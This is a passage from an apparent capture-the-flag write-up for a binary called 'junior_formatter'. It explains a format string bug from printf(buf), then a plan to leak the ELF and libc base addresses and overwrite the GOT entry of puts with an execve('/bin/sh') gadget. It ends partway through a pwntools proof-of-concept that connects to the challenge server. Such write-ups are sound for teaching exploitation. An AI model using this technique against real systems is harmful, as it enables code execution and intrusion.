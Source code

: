 ```c
  puts("Thank you for the Feedback!");
  return 0;
}
```

In the provided `main` function, there are two instances of potential format string vulnerabilities due to the use of `printf(buf)` without a format specifier.

#### logo

```c
int logo()
{
  puts(" __  ____   __   ____ ___   ___  _          ");
  puts("|  \\/  \\ \\ / /  / ___/ _ \\ / _ \\| |         ");
  puts("| |\\/| |\\ V /  | |  | | | | | | | |         ");
  puts("| |  | | | |   | |__| |_| | |_| | |___      ");
  puts("|_|  |_| |_|____\\____\\___/_\\___/|_____|____ ");
  puts("\\ \\      / / ____| __ ) ___|_ _|_   _| ____|");
  puts(" \\ \\ /\\ / /|  _| |  _ \\___ \\| |  | | |  _|  ");
  puts("  \\ V  V / | |___| |_) |__) | |  | | | |___ ");
  return puts("   \\_/\\_/  |_____|____/____/___| |_| |_____|\n");
}
```

The `logo` function prints out the banner. Since the binary has Position Independent Executable (PIE) enabled and Partial Relro, we can overwrite the Global Offset Entry.

Firstly, we must obtain the Executable and Linkable Format (ELF) base address to calculate the offset of the Global Offset Table (GOT), and the libc's base address to calculate the fixed offset of execve("/bin/sh", r10, rdx).

In this case, I overwrote the Global Offset Table entry of puts to execve("/bin/sh", r10, rdx) to achieve arbitrary code execution.

#### POC

```python
#!/usr/bin/python
from pwn import *
exe = './junior_formatter'
elf = context.binary = ELF(exe, checksec = 0)
context.bits = 64
context.log_level = 'debug'
context.terminal = ["kitty", "@launch", "--location=split", "--cwd=current"]
host, port = "nc 52.59.124.14 5031".split(" ")[1:3]
io = remote(host, port)
sla = lambda a, b: io.sendlineafter(a, b)
sa = lambda a, b: io.sendafter(a, b)
ru = lambda a: io.recvuntil(a)
s = lambda a: io.send(a)
sl = lambda a: io.sendline(a)
rl = lambda: io.recvline()
com = lambda: io.interactive()
li = lambda a: log.info(a)
rud = lambda a:io.recvuntil(a, drop=0x1)
r = lambda: io.recv()
int16 = lambda a: int(a, 16)
rar = lambda a: io.recv(a)
rj = lambda a, b, c : a.rjust(b, c)
lj = lambda a, b, c : a.ljust(b, c)
d = lambda a: a.decode('utf-8')
e = lambda a: a.encode()
cl = lambda: io.close()
libc = ELF('./libc6_2.35-0ubuntu3.6_amd64.so', checksec = 0)

```